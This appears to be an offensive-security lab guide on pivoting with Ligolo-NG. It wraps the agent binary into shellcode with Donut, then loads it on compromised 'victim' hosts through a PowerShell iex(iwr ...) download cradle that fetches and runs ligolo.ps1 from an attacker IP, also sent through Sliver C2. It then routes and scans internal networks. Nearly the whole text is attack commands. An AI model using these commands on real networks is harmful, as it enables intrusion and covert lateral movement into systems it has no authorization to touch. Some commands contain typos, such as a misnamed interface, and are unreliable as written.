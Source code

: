 # Ligolo-NG (client) Agent
Ligolo-NG is a reliable way to get proxying to work in lab environments or for training. 

## References
Ligolo-NG How-To Guide https://www.stationx.net/how-to-use-ligolo-ng/
Code Repository Source https://github.com/Extravenger/OSEPlayground/tree/main/04%20-%20Tunneling

## Using Donut 
Making use of Donut by TheWover and will be used to wrap the Ligolo-ng agent binary (agent.exe) into position-independent shellcode, then execute the shellcode via sliver (or other shell interaction) to establish a new encrypted tunnel. 
Reference: https://github.com/TheWover/donut

note: Requires x64 bit process to run

```bash
┌──(kali㉿kali)-[~]
└─$ donut -f 1 -o agent.bin -a 2 -p "-connect <kaliIP>:11601 -ignore-cert" -i agent.exe
```

## Setup Ligolo-NG Server
Example Setup
```bash
# Compromised host is accessible via 192.168.243.0 network, want to access hosts on the internal 172.16.243.0 network
# Kali box is hosted on 192.168.45.0/24 and can communicate to 192.168.243.0/24 network
Eth0: 192.168.243.159
ETH1: 172.16.243.159

# Step 1 - Add Proxy TUN interface
┌──(kali㉿kali)-[~]
└─$ sudo ip tuntap add user kali mode tun ligolo
┌──(kali㉿kali)-[~]
└─$ sudo ip link set ligolo up

# Step 2 - Start Logilo-Proxy server
┌──(kali㉿kali)-[~]
└─$ ligolo-proxy -selfcert
```

## Setup Ligolo-NG Client Agents
This step will require you to transfer files to host or use powershell to run ligolo.ps1 shellcode runner (recommended)

### Using Ligolo through Shell
PS C:\Users\Public\Documents> iex(iwr http://192.168.45.173/ligolo.ps1 -UseBasicParsing)

### Using Ligolo with Sliver C2
To send request through sliver session via sharpsh
sliver (interactive) > sharpsh -- '-e -c <base64encoded>iex(iwr http://192.168.45.227/ligolo.ps1 -UseBasicParsing)'

## Setup Proxy
```bash
# Step 3 - Go to ligolo-proxy server console on kali and wait for Agent connection info will be displayed as such: 
ligolo-ng >> INFO [001] Agent Joined

# Step 4 - Select Agent session and select Enter
ligolo-ng >> session

# Step 5 - Confirm network interfaces with ifconfig
[AGENT : victim-1@sessionID] >> ifconfig

# Step 6 - Add IP Route of internal network to Kali host
┌──(kali㉿kali)-[~]
└─$ sudo ip route add 172.16.243.0/24 dev ligolo

# Step 7 - Start Ligolo-NG Server proxy
[AGENT : victim-1@sessionID] >> start

# can now nmap the IP Address of internal network without proxychains
┌──(kali㉿kali)-[~]
└─$ nmap -sn 172.16.243.150-155 -vv
```

## Setup additional hop to a secondary network
It should be noted, that C2 Agent Pivots should be used here instead of using ligolo-ng tunneling to communicate with the other networks. 

Example Setup
```bash
# Compromised host is accessible via 192.168.243.0 network, want to access hosts on the internal 172.16.243.0 network
# Victim 1
Eth0: 192.168.243.159
ETH1: 172.16.243.159 # IP used to forward traffic to Kali

# Victim 2
ETH0: 172.16.243.150
ETH1: 10.10.3.1

# Step 1 - Add Proxy TUN interface
┌──(kali㉿kali)-[~]
└─$ sudo ip tuntap add user kali mode tun Ligolo-2ndHost
┌──(kali㉿kali)-[~]
└─$ sudo ip link set ligolo-2ndHost up

# Step 2 - Start a listener on Host 1 (Victim 1)
[AGENT : victim-1@sessionID] listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

# Step 3 - Generate new agent-2.bin donut shellcode 
┌──(kali㉿kali)-[~]
└─$ donut -f 1 -o agent-2.bin -a 2 -p "-connect 172.16.243.159:11601 -ignore-cert" -i agent.exe

# Step 4 - Update ligolo.ps1 (line 14) to agent-2.bin

# Step 5 - Run the donut nigolo-ng agent from Victim 2 machine 
sliver (interactive) > sharpsh -- '-e -c <base64encoded>iex(iwr http://192.168.45.227/ligolo.ps1 -UseBasicParsing)'

# Step 6 - Wait for agent to connect to Ligolo-NG Server console and select Victim-2 session
ligolo-ng >> session

# Step 7 - Start Tunnel
[Agent : victim-2@sessionID] >> tunnel_start -tun ligolo-2ndHost

# Step 8 - Add IP route to 10.10.3.0/24 network
┌──(kali㉿kali)-[~]
└─$ sudo ip add route 10.10.3.0/24 dev ligolo-ligolo-2ndHost
```

